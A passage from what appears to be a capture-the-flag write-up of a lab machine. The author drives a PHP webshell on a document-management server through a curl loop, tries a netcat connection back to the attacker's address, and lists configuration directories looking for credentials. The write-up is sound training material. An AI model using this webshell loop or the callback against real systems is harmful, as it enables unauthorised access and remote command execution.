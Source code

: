 Ignoring the fact that somehow the `nc` link is configured through the [alternatives](/2020/03/24/update-alternatives.html), the actual `ncat` binary has an extra `.` on the end of the permissions. That’s an indication the [SELinux is impacting the file](https://serverfault.com/questions/778407/linux-file-permission-got-a-ending-dot-and-webserver-denied-access).

`curl` has it too:

```

oxdf@parrot$ curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode 'cmd=ls -l /usr/bin/curl'
-rwxr-xr-x. 1 root root 244104 Dec 17 17:46 /usr/bin/curl

```

### Webshell Enum

I’ll use a simple Bash loop to enumerate the box through the webshell:

```

oxdf@parrot$ while :; do read -p "> " cmd; curl -G http://dms-pit.htb/seeddms51x/data/1048576/33/1.php --data-urlencode "cmd=$cmd 2>&1"; done
> id
uid=992(nginx) gid=988(nginx) groups=988(nginx) context=system_u:system_r:httpd_t:s0
> ls
1.php
> nc 10.10.14.7 443
Ncat: Permission denied.

```

I’m not able to access `/home`:

```

> ls /home
ls: cannot open directory '/home': Permission denied

```

Looking at the web directories, there’s a `settings.xml` for the DMS:

```

> ls ../..
1048576
backup
cache
conf
log
lucene
staging
> ls ../../conf
settings.xml
settings.xml.template
stopwords.txt

```
